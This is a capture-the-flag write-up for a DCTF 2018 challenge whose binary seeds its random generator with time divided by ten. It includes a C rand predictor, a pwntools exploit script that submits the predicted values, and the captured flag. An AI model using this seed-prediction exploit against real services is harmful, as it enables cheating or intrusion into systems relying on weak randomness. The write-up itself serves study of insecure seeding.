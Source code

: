 # **Even more lucky?**

#### tag : pwn, random

-----------------------------------------------

#### Description

>We have updated the lucky game just for you! Now the executable is lighter and more efficient.
>
>Target: 167.99.143.206 65032
>
>Bin: https://dctf.def.camp/dctf-18-quals-81249812/lucky2
>
>Author: Lucian Nitescu

-----------------------------------------------

#### Solution

This problem is more easier than prob `lucky`. This binary use seed that time based `time(0)/10`. Just `/10` make me geuss random values!

~~~

v31 = time(0LL);
std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(&v27, a2);
std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(&v26, a2);
std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(&v25, a2);
srand((signed int)v31 / 10);

~~~

I make `random.c` to get rand number for time based. And this code will run in python code.

```c

#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main() {
	srand((int)time(NULL)/10);
	for(int i=0; i<100; i++)
		printf("%d\n", rand());
	return 0;
}

```

Here is my solution.

```python

#!/usr/bin/env python
from time import time
from os import system
from pwn import *

### DEBUGGGING ###

DEBUG = True

if DEBUG:
    r = process('lucky2')
    timeout = 0.1

#    gdb.attach(r,'''
#    b main
#    ''')
    context.log_level = 'debug'

else:
    r = remote('',0)
    timeout = 0.3

def ss(s):
    sleep(timeout)
    return r.sendline(s)

def rr(s):
    sleep(timeout)
    return r.recvuntil(s)

### ADDRESS ###
### PAYLOAD ###
### EXPLOIT ###

def main():
    rr('?\n')
    ss('a')

    system('./random > randmal')
    rd = (open('randmal', 'r').read()).split('\n')[:-1]

    for i in range(0,100):
        rr(']\n')
        ss(rd[i])

    r.interactive()

if __name__ == '__main__':
    try:
        main()
    except:
        log.info('exception occur')


```

**DCTF{2e7aaa899a8b212ea6ebda3112d24559f2d2c540a9a29b1b47477ae8e5f20ace}**
